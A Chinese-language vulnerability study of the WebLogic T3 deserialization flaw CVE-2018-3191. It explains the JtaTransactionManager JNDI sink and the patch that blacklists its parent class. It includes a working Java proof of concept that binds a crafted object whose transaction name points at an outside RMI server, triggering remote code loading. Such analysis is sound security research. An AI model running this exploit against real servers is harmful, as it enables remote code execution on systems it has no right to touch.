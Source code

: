 - [CVE-2018-3191 T3 反序列化](#cve-2018-3191-t3-反序列化)
  - [漏洞原理](#漏洞原理)
    - [JtaTransactionManager](#jtatransactionmanager)
    - [POC](#poc)
  - [补丁](#补丁)
  - [参考](#参考)

# CVE-2018-3191 T3 反序列化
## 漏洞原理
### JtaTransactionManager
在CVE-2018-3191中利用的是JtaTransactionManager类这个不在黑名单中的类,在其`readObject`方法中存在JNDI的sink.  
![](2023-02-28-16-25-41.png)  

![](2023-02-28-16-25-51.png)  

![](2023-02-28-16-26-09.png)  
通过向weblogic绑定一个`userTransactionName`属性为恶意JNDI连接地址的JtaTransactionManager对象,即可在服务端接受反序列化该对象的时候触发JNDI注入.  
### POC
```java
import com.bea.core.repackaged.springframework.transaction.jta.JtaTransactionManager;
import ysoserial.payloads.util.Gadgets;

import javax.naming.Context;
import javax.naming.InitialContext;
import java.util.Hashtable;
import java.rmi.Remote;
public class T3 {
    public static void main(String[] args) throws Exception {
        Hashtable<String, String> env = new Hashtable<>();
        env.put(Context.INITIAL_CONTEXT_FACTORY, "weblogic.jndi.WLInitialContextFactory");
        env.put("java.naming.provider.url", "t3://127.0.0.1:7001");
        InitialContext initialContext = new InitialContext(env);
        JtaTransactionManager jtaTransactionManager = new JtaTransactionManager();
        jtaTransactionManager.setUserTransactionName("rmi://192.168.65.2:1099/bzfdiv");
        Remote remote = Gadgets.createMemoitizedProxy(Gadgets.createMap("pwned", jtaTransactionManager), Remote.class);
        initialContext.rebind("hello", remote);

    }
}

```
![](2023-02-28-16-59-02.png)  
## 补丁
在resolveClass中对JtaTransactionManager的父类`AbstractPlatformTransactionManager`添加了黑名单.
## 参考
https://paper.seebug.org/718/
